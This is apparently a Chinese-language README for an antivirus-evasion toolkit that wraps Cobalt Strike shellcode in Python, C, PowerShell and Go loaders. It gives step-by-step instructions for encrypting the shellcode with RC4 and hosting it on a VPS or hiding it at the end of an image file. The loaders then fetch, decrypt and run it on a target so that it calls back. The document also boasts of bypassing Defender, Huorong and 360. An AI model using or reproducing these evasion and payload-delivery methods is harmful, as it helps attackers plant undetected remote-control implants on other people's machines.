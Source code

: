 <h1 align="center">CS-Avoid-killing 🏏</h1>

CS免杀,包括python版和C版本的(经测试Python打包的方式在win10上存在bug,无法运行,Win7测试无异常

V1.0: 目前测试可以过Defender/火绒的静杀+动杀,360还没测= =不想装360全家桶了,可以自行测试

下一步开发计划:

V1.5: 加入C版本CS免杀(已完成)

V1.7:加入Powershell的免杀(已完成)

~~V2.0:开发出UI界面~~

V2.0: 开发成在线免杀平台(已完成)

> PS: 在实际使用中发现图形化界面不利于和其他工具结合,相比之下命令行的方式更具有扩展性
> 
> 关于自己写的在线免杀平台,暂不考虑开源,主要是觉得目前的技术还比较薄弱,如果有想加入团队一起研发的师傅或者是想体验可以联系我

V3.0: 想办法结合更多免杀技术(想去研究下进程注入/文件捆绑,不知道免杀效果怎样)

- V3.1 增加了go版本(可过火绒/360/defender)

## 依赖环境

python: 

- python2
- pyinstaller
- requests

C: VS2019默认就够了

Powershell: Win10上测试没有问题,也就是ps5.1,更低版本未测试

go: go

## 安装

`git clone https://github.com/wgpsec/CS-Avoid-killing.git`

## 使用

1. 先通过CS生成C格式的shellcode:` Attacks -> packages -> Payload Generator `选择一个listener然后生成一个C的shellcode(其实就是二进制代码)

2. Python版:

   > 1. 将生成的shellcode填入generator.py的shellcode变量中,填入一个Key,用于后续的RC4加密
   > 2. 运行generator.py,生成的payload自动保存在payload.txt中.
   > 3. 将payload.txt上传到你的VPS中,后续生成的加载器会从VPS中获取加密shellcode并在本地解密后执行
   > 4. 将在VPS上的payload路径填入PyLoader.py的url变量中,填入你刚刚设置的Key
   > 5. 用`python pyinstaller.py -F -w PyLoader.py`打包文件,可执行文件在pyshellcode文件夹下的dist中,双击运行可以看到主机上线

3. C版本:

   > 1. 按要求填入你自己的Key,shellcdoe长度和shellcode,执行
   > 2. 将第一行的数字复制进Loader的Base64ShellLen字段中,将第二行生成的加密shellcode保存在payload.txt文件中并将其放在服务器上(~~如果不叫这名或者不在跟路径,需要自己改`char request[1024] = "GET /RC4Payload32.txt HTTP/1.1\r\nHost:";`中的路径)
   > 在path中填入可以访问到payload的路径即可(Ex: /test/payload.txt)
   > 3. 在Loader中填入自己的Key和VPS的IP,编译
   > 4. 执行编译出的exe,CS上线
   
4. Powershell版本:

   > 1. 在CS中生成Powershell版本的payload.ps1
   > 2. Python3 PSconfusion.py payload.ps1 AVpayload.ps1
   > 3. 经测试能过目前所有杀软的静杀,动杀的话,由于CS中有些模块不免杀,所以加载这些模块时可能会触发动杀,这个以后再研究怎么绕过
   
5. go版本:

   > 1. 将一张不要太大的图片放入同一文件夹下
   > 2. 将生成的shellcode填入generator.py的shellcode变量中, 执行`python generator YourRC4key ImageName` ,生成的shellcode会自动追加到图片末尾
   > 3. 将图片上传至图床(找那种不会压缩的图床,保证shellcode不会被删掉)
   > 4. 将图片url和你的RC4key填入CS-Loader.go的相应位置
   > 5. 使用命令`go build -ldflags="-H windowsgui" CS-Loader.go`生成exe,可以用upx压缩下
   > 6. 执行exe,CS上线

## 注意

1. pyinstaller安装细节

   > 最后一个支持python2的版本是3.6(最新版pyinstall不再支持python2)
   >
   > 网址:https://github.com/pyinstaller/pyinstaller/releases
   >
   > 需要安装pywin32:https://github.com/mhammond/pywin32

2. 目标是什么环境就在什么环境上打包,否则可能会出现无法上线的情况,不推荐使用py3对项目进行改造,ctypes对py3的支持不太好,会有些莫名其妙的bug

3. 经过测试,C版本在X86Debug模式编译下无任何问题,Release模式下会存在莫名bug,在某些电脑上无法正常上线,请根据需求自行测试

4. 编译选项不要选择动态编译,否则可能会因为目标靶机上缺少相应dll而无法运行.

5. 加载ps脚本的方式这里不做讨论,有师傅已经总结的非常好了,请自行百度

6. go版本build前建议先`set GOARCH=amd64`,同时使用64位的shellcode,32位打包出来的程序会报一个在ntdll中找不到函数的错误,曾有人提问过:https://stackoverflow.com/questions/58649055/failed-to-find-rtlcopymemory-procedure-in-ntdll-dll-only-when-goarch-386
